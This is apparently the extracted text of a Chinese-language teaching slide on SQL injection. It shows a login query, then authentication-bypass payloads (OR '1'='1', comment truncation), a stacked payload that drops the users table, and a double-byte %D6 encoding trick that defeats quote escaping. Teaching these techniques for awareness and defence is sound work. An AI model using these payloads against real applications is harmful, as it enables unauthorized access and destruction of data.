

# SQL 原理
注入实例

SELECT * FROM users WHERE 'username' = '$USER' AND 'password'='$PASS';

SELECT * FROM users WHERE 'username' = 'bob' AND 'password' = '1234';

SELECT * FROM users WHERE 'username' = 'admin' and `password` = 'hi' OR '1'='1‘

SELECT * FROM users WHERE 'username' = 'admin' and `password` = 'hi' OR 1=1--‘

SELECT * FROM users  WHERE 'username' = ' admin ' -- ' Password='123‘

SELECT * FROM usersTable WHERE 'username' = ' admin';drop table usersTable--'

双字节编码截断
URL:http://localhost/a.php?id=10%D6 ‘%20AND%201=2%23

SQL: SELECT * FROM users WHERE 'username' = '10謀' AND 1=2#' LIMIT 1
可以看到在‘ 前面加了个%D6后,引号被吃掉了